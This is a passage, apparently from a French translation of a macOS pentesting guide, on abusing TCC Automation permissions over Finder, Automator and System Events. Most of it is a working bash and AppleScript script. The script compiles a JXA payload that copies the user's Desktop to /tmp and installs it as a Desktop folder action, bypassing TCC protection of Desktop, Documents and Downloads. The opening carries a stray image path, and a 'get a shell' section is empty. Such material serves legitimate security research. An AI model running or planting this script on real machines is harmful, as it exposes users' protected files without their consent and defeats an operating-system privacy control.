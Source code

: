 Vous pourriez abuser de cela pour **écrire votre propre base de données TCC utilisateur**.

> [!WARNING]
> Avec cette permission, vous pourrez **demander à Finder d'accéder aux dossiers restreints par TCC** et de vous donner les fichiers, mais à ma connaissance, vous **ne pourrez pas faire exécuter du code arbitraire par Finder** pour abuser pleinement de son accès FDA.
>
> Par conséquent, vous ne pourrez pas abuser de toutes les capacités de la FDA.

Voici l'invite TCC pour obtenir des privilèges d'automatisation sur Finder :

<figure><img src="../../../../images/image (27).png" alt="" width="244"><figcaption></figcaption></figure>

> [!CAUTION]
> Notez qu'en raison du fait que l'application **Automator** a la permission TCC **`kTCCServiceAppleEvents`**, elle peut **contrôler n'importe quelle application**, comme Finder. Donc, en ayant la permission de contrôler Automator, vous pourriez également contrôler le **Finder** avec un code comme celui ci-dessous :

<details><summary>Obtenir un shell à l'intérieur d'Automator</summary></details>

Il en va de même pour l'**application Script Editor,** elle peut contrôler Finder, mais en utilisant un AppleScript, vous ne pouvez pas le forcer à exécuter un script.

### Automation (SE) to some TCC

**Les événements système peuvent créer des actions de dossier, et les actions de dossier peuvent accéder à certains dossiers TCC** (Bureau, Documents et Téléchargements), donc un script comme le suivant peut être utilisé pour abuser de ce comportement :
```bash
# Create script to execute with the action
cat > "/tmp/script.js" <<EOD
var app = Application.currentApplication();
app.includeStandardAdditions = true;
app.doShellScript("cp -r $HOME/Desktop /tmp/desktop");
EOD

osacompile -l JavaScript -o "$HOME/Library/Scripts/Folder Action Scripts/script.scpt" "/tmp/script.js"

# Create folder action with System Events in "$HOME/Desktop"
osascript <<EOD
tell application "System Events"
-- Ensure Folder Actions are enabled
set folder actions enabled to true

-- Define the path to the folder and the script
set homeFolder to path to home folder as text
set folderPath to homeFolder & "Desktop"
set scriptPath to homeFolder & "Library:Scripts:Folder Action Scripts:script.scpt"

-- Create or get the Folder Action for the Desktop
if not (exists folder action folderPath) then
make new folder action at end of folder actions with properties {name:folderPath, path:folderPath}
end if
set myFolderAction to folder action folderPath

-- Attach the script to the Folder Action
if not (exists script scriptPath of myFolderAction) then
make new script at end of scripts of myFolderAction with properties {name:scriptPath, path:scriptPath}
end if

-- Enable the Folder Action and the script
enable myFolderAction
end tell
```